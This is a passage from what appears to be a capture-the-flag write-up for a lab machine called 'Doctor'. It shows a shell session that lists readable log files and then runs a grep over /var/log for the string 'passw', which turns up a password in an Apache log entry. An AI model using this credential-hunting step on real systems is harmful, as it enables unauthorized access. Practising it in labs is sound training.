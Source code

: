 ```
/var/log/apache2/access.log.6.gz
/var/log/apache2/access.log.7.gz
/var/log/apache2/access.log.8.gz
/var/log/apache2/error.log.7.gz
/var/log/apache2/access.log.9.gz
/var/log/apache2/error.log.4.gz
/var/log/apache2/error.log.8.gz
/var/log/apache2/access.log.3.gz
/var/log/apache2/access.log.4.gz
/var/log/apache2/error.log.2.gz
/var/log/apache2/error.log.13.gz
/var/log/apache2/error.log.12.gz
/var/log/apache2/access.log.10.gz
/var/log/apache2/error.log.11.gz
/var/log/apache2/access.log.5.gz
/var/log/apt/term.log.1.gz
/var/log/apt/term.log.2.gz
/var/log/apt/term.log
/var/log/ufw.log.3.gz
/var/log/kern.log.2.gz
/var/log/syslog.4.gz
/var/log/dmesg
/var/log/dmesg.0
/var/log/auth.log.2.gz
/var/log/dmesg.4.gz
/var/log/dmesg.1.gz
/var/log/ufw.log.1
/var/log/kern.log.4.gz
/var/log/syslog.5.gz
/var/log/ufw.log
/var/log/dmesg.3.gz
/var/log/syslog.6.gz
/var/log/auth.log.3.gz
/var/log/kern.log
/var/log/syslog.7.gz
/var/log/kern.log.1
/var/log/auth.log.4.gz
/var/log/syslog.2.gz
/var/log/syslog.3.gz
/var/spool/rsyslog
web@doctor:~$ 
```

We have access to the logs. Let's search the logs for passwords:

```
web@doctor:~$ grep -ir passw /var/log 2>/dev/null
grep -ir passw /var/log 2>/dev/null
...
/var/log/apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
...
web@doctor:~$ 
```
